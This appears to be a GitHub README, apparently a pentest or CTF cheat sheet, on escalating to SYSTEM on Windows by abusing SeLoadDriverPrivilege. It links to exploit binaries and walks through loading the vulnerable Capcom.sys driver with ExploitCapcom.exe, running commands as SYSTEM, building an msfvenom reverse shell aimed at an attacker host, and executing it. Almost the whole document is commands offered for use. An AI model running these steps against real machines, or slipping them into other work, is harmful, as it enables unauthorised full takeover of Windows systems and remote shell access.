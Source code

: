 # SeLoadDriverPrivilege

If you see this privilege, doesn't matter if it says the priv is Disabled we can Enabled it and exploit it by uploading malicious driver and using that driver we can execute our payload.

# Exploitation

Upload the driver [eoploaddriver_x64.exe](https://github.com/k4sth4/SeLoadDriverPrivilege/blob/main/eoploaddriver_x64.exe), [Capcom.sys file](https://github.com/k4sth4/SeLoadDriverPrivilege/blob/main/Capcom.sys), [ExploitCapcom.exe](https://github.com/k4sth4/SeLoadDriverPrivilege/blob/main/ExploitCapcom.exe) on traget machine under writable directory.

First we need to turn on the privilege of SeLoadDriverPrivilege that is disabled.
```markdown
.\eoploaddriver_x64.exe System\\CurrentControlSet\\dfserv C:\\Temp\\Capcom.sys
```

Now using ExploitCapcom.exe load Capcom.sys to target machine.
```markdown
.\ExploitCapcom.exe LOAD C:\\Temp\\Capcom.sys
```

After successfully loading Capcom.sys we can now run any cmd as privilege user with EXPLOIT keyword.
```markdown
.\ExploitCapcom.exe EXPLOIT whoami
```

Now we can generate a revshell with msfvenom.
You can also use other revshell.
On Attacker vm.
```markdown
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.x.x LPORT=4444 -f exe > shell.exe
```

Upload it on Traget machine.
Now the exploit.
```markdown
.\ExploitCapcom.exe EXPLOIT shell.exe
```

You gonna get reverse shell as SYSTEM.

